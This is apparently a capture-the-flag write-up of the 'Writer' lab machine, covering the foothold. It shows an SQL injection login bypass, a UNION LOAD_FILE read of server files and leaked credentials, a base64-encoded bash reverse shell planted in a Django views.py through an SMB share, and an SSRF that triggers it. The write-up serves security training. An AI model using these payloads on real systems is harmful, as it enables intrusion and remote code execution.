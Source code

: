 I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.

<img src='Images/fscan.png'>

We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.

<img src='Images/smbmap.png'>

I don't have any access here. I'll revisit if I find some credentials.

<img src='Images/gobuster.png'>

Gobuster finds a directory called `administrative`. It leads to a login page:

<img src='Images/administrative.png'>

I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.

<img src='Images/dashboard.png'>

clicking around I find a `/stories` directory.

<img src='Images/stories.png'>

It has the option to upload a `.jpg` file from the local computer or from a url. 

<img src='Images/storiesadd.png'>

I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.

<img src='Images/bugmodified.png'>

I can see the file has sucessfuly upload to the `/static/img` folder. 

<img src='Images/staticimg.png'>

Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.

<img src='Images/fail.png'>

I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`

<img src='Images/union.png'>

Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.

<img src='Images/loadfile.png'>

I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.

<img src='Images/script.png'>

I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`

<img src='Images/sites-enabled.png'>

It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If I can find an SSRF I could interact with this site.

<img src='Images/wsgi.png'>

There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import app` could mean a file `writer.py` containing an `app` object, a parent directory `/writer` containing `app.py` or `writer/__init__.py` containing an `app` object, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:

<img src='Images/__init__.png'>

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.

<img src='Images/authsmbmap.png'>

The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 

<img src='Images/writer_proj.png'>

`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

The `r'^$'` matches an empty url resource path i.e. `http://127.0.0.1:8080/` and requesting this url will redirect to `/home` and load `views.home_page`. This file imports `views.py` which contains the `home_page` object

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem()` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share with 

`smb: \writer_web\> put views.py`

and start a listener on port `9001`.

On `/stories/add` I'll upload a file from url. I just put `http://google.com` as there's some client side filtering, but I'll intercept the request in burpsuite and modify the url there. I know from the source code the filename/url must contain `.jpg` so I'll put the `image_url` as `http://127.0.01:8080/?.jpg` which matches an empty url resource path as the `?.jpg` acts as a fake query parameter. An anchor `#.jpg` also works.

<img src='Images/ssrf.png'>

and on my listener I get a connection as `www-data`

<img src='Images/rev.png'>



